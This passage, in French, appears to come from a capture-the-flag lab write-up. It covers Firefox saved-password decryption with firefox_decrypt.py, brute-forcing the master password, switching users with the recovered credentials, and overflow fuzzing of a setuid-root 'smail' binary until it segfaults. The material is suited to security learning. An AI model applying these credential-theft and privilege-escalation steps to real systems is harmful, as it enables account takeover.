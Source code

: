 ```bash
Username: 'dev'
Password: 'Pas$w0RD59247'
```

On télécharger les informations de firefox.  
On télécharger firefox_decrypt.py pour retrouver les mots de passes.   
Je ne connais pas le mot de passe master donc je le brute force.    
On arrive à trouver les bon identifiants.  

```bash
tommy@incognito:/home/carlJ$ su carlJ 
Password: 
carlJ@incognito:~$ 
```

Avec le mot de passe : Pas$w0RD59247 on se connecte sur le compte de carlJ.   

```bash
carlJ@incognito:~$ ls
mailing
carlJ@incognito:~$ cd mailing/
carlJ@incognito:~/mailing$ ls -al
total 20
drwx------ 2 carlJ carlJ 4096 Apr 16  2021 .
drwxr-xr-x 8 carlJ carlJ 4096 Jun 11 06:22 ..
-rwsrwxr-x 1 root  root  8544 Apr  3  2021 smail
```

Dans mailing on a un fichier smail qui setuid.   

```bash
carlJ@incognito:~/mailing$ ./smail 
What do you wanna do
1-Send Message
2-Change your Signature
1
What message you want to send(limit 80)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Sent!

What do you wanna do
1-Send Message
2-Change your Signature
2 
Write your signature...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Changed
Segmentation fault (core dumped)
```
